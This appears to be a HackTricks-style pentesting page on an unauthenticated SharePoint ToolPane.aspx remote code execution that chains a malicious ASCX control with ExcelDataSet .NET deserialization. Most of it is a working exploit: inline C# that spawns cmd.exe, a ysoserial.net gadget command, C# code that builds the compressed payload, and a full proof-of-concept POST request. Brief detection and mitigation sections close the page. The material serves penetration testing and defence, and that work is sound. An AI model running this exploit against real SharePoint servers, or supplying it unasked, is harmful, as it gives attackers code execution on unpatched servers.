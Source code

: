 # SharePoint ExcelDataSet WebPart RCE (ToolPane.aspx)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

• SharePoint exposes an unauthenticated Web Part editing endpoint at:

```
/_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx
```

• The endpoint processes two POST parameters that can be supplied **without authentication**:

* `MSOTlPn_Uri`  – path/URL to an **.ascx UserControl** that will be dynamically loaded.
* `MSOTlPn_DWP`  – full XML/ASP definition (**DWP**) of the Web Part to render.

• By pointing `MSOTlPn_Uri` to a malicious ASCX file in the `ControlTemplates/15/` directory the attacker gains the ability to execute **inline C#** when the control is rendered.

• Inside the DWP payload the attacker can register the gadget namespace `Microsoft.PerformancePoint.Scorecards` and instantiate the class `Scorecard:ExcelDataSet`.

• The attribute `CompressedDataTable` of that class accepts **GZip-compressed + Base64** serialized `DataTable` objects.  The implementation **inflates and deserializes the DataTable with no type filtering**, giving us a classic **.NET unsafe deserialization primitive**.

• By embedding a gadget chain (for example generated with ysoserial.net’s `TypeConfuseDelegate` or any other working gadget) inside the compressed bytes we achieve **remote command execution on the SharePoint front-end** once the page is processed.

## Vulnerable Parameters

| Parameter | Purpose | Malicious use |
|-----------|---------|---------------|
| `MSOTlPn_Uri` | Location of ASCX control that will be loaded inside the Tool Pane | Point to attacker-controlled  or already writable location (`/_controltemplates/15/AclEditor.ascx`) containing inline C# such as `<%@ Page Language="C#" %><% Response.Write(new System.Diagnostics.Process(){StartInfo = {FileName="cmd.exe",Arguments="/c calc"}}.Start()); %>` |
| `MSOTlPn_DWP` | Web-Part (DWP) definition shown in the Tool Pane | Inject ASP `@Register` directives and the **Scorecard:ExcelDataSet** element carrying our compressed payload |

## Crafting the Deserialization Payload

1. Generate any **.NET `BinaryFormatter`** gadget that spawns commands:

```bash
# Example with ysoserial.net on Windows
y soserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "calc.exe" -o raw > payload.bin
```

2. Wrap the binary payload inside a `DataTable` object – easiest method is to let .NET do it for you:

```csharp
using System;
using System.Data;
using System.IO;
using System.IO.Compression;
using System.Runtime.Serialization.Formatters.Binary;

class BuildDT {
    static void Main() {
        byte[] gadget = File.ReadAllBytes("payload.bin");
        DataTable dt = new DataTable();
        dt.Columns.Add("Pwn", typeof(byte[]));
        dt.Rows.Add(new object[]{gadget});

        BinaryFormatter bf = new BinaryFormatter();
        MemoryStream ms = new MemoryStream();
        bf.Serialize(ms, dt);

        byte[] compressed;
        using(var g = new GZipStream(new MemoryStream(), CompressionMode.Compress, true)){}
        using (MemoryStream cms = new MemoryStream()) {
            using (GZipStream gz = new GZipStream(cms, CompressionMode.Compress))
                gz.Write(ms.ToArray(),0,(int)ms.Length);
            compressed = cms.ToArray();
        }
        Console.WriteLine(Convert.ToBase64String(compressed));
    }
}
```

3. Place the resulting Base64 string in the `CompressedDataTable` attribute:

```xml
<Scorecard:ExcelDataSet CompressedDataTable="H4sIAAAAA..." DataTable-CaseSensitive="false" runat="server" />
```

## Full Proof-of-Concept Request

```http
POST /_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx HTTP/1.1
Host: victim.sharepoint.local
Content-Type: application/x-www-form-urlencoded

MSOTlPn_Uri=http%3A%2F%2Fvictim.sharepoint.local%2F_controltemplates%2F15%2FAclEditor.ascx&
MSOTlPn_DWP=
<%@ Register Tagprefix="Scorecard" Namespace="Microsoft.PerformancePoint.Scorecards" Assembly="Microsoft.PerformancePoint.Scorecards.Client, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" %>
<%@ Register Tagprefix="asp" Namespace="System.Web.UI" Assembly="System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" %>
<asp:UpdateProgress ID="up" runat="server">
<ProgressTemplate>
<Scorecard:ExcelDataSet CompressedDataTable="<BASE64_GZIP_PAYLOAD>" DataTable-CaseSensitive="false" runat="server" />
</ProgressTemplate>
</asp:UpdateProgress>
```

Opening the URL or simply sending the POST request triggers the deserialization chain → execution.

## Detection

* Monitor IIS logs for unauthenticated POSTs to `ToolPane.aspx` containing the above parameters.
* Inspect loaded ASCX files under `CONTROLTEMPLATES/` for suspicious inline code.
* Enable process-creation logging (Sysmon ID 1 / Windows Event 4688) to detect unexpected `w3wp.exe` children.

## Mitigations

1. **Patch** – Microsoft has issued patches tightening validation of the parameters and adding type filters to `ExcelDataSet` (see KB5002458+).
2. **Web.config hardening** – set `SafeControls` to disallow untrusted UserControls and restrict `Scorecard` namespace.
3. **WAF / Rewrite-module** – block requests with `MSOTlPn_Uri` or `MSOTlPn_DWP` parameters coming from untrusted networks.
4. Run SharePoint front-end in a constrained AppPool identity and leverage AMSI/Code Integrity to limit inline compilation.

## References

- [SharePoint ToolPane.aspx WebPart RCE via malicious ASCX and ExcelDataSet](https://gist.github.com/gboddin/6374c04f84b58cef050f5f4ecf43d501)

{{#include ../../banners/hacktricks-training.md}}